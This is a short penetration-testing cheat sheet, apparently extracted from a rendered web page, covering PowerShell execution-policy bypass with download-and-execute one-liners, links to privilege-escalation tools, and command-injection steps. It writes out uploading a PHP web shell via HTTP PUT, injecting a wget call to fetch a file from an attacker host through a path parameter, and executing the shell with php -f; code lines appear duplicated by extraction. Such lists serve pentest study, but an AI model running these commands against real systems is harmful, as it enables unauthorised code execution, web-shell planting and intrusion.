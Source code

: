 Execution Bypass

    Set-ExecutionPolicy Unrestricted
    iex(new-object system.net.webclient).downloadstring(“file:///C:\examplefile.ps1”)

Powershell.exe blocked

    Use ‘not powershell’ https://github.com/Ben0xA/nps

PS1 File blocked

    iex(new-object system.net.webclient).downloadstring(“file:///C:\examplefile.doc”)
        Invoke-examplefile #This allows execution of any file extension

Privilege Escalation
Linux:

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

https://github.com/pentestmonkey/unix-privesc-check
Windows:

https://github.com/pentestmonkey/windows-privesc-check

http://www.fuzzysecurity.com/tutorials/16.html

https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
Command Injection
File Traverse:

    website.com/file.php[?path=/]
    1
    	
    website.com/file.php[?path=/]

Test HTTP options using curl:

    curl -vX OPTIONS [website]
    1
    	
    curl -vX OPTIONS [website]

Upload file using CURL to website with PUT option available

    curl --upload-file shell.php --url http://192.168.218.139/test/shell.php --http1.0
    1
    	
    curl --upload-file shell.php --url http://192.168.218.139/test/shell.php --http1.0

Transfer file (Try temp directory if not writable)(wget -O tells it where to store):

    ?path=/; wget http://IPADDRESS:8000/FILENAME.EXTENTION;
    1
    	
    ?path=/; wget http://IPADDRESS:8000/FILENAME.EXTENTION;

Activate shell file:

    ; php -f filelocation.php;
    1
    	
    ; php -f filelocation.php;
